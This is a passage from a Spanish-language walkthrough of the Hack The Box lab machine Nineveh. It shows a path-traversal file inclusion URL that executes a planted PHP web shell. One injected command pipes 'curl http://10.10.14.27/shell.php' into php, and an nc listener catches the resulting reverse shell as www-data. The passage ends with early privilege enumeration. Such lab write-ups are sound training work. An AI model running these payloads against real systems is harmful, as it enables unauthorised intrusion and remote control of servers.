 - `http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../../../../var/tmp/k4miyo.php&cmd=whoami`

![""](/assets/images/htb-nineveh/nineveh-web18.png)

Ya tenemos ejecución de comando a nivel de sistema, ahora nos queda ingresar a la máquina; para este caso haremos uso de la herramienta [php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell), así que la descargamos en nuestro directorio de trabajo, los descomprimimos y modificamos los parámetros que nos indica dentro del archivo `php-reverse-shell.php`. Una vez hecho esto, nos compartimos un servidor HTTP con python, nos podemos en escucha y procedemos a entablarnos una reverse shell.

- `http://nineveh.htb/department/manage.php?notes=/ninevehNotes/../../../../var/tmp/k4miyo.php&cmd=curl http://10.10.14.27/shell.php|php`

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.43 - - [28/Nov/2021 20:43:22] "GET /shell.php HTTP/1.1" 200 -
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.43] 56104
Linux nineveh 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 20:48:20 up 57 min,  0 users,  load average: 0.01, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

Ya nos encontramos dentro de la máquina y como siempre, para trabajar más cómodos, vamos a hacer un [Tratamiento de la tty](/posts/tratamiento-tty). Nos encontramos como el usuario **www-data** y no podemos visualizar la flag ya que no tenemos los permisos necesarios. Vamos a enumerar un poco el sistema.

```bash
www-data@nineveh:/home/amrois$ id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@nineveh:/home/amrois$ sudo -l
[sudo] password for www-data: 
www-data@nineveh:/home/amrois$
```
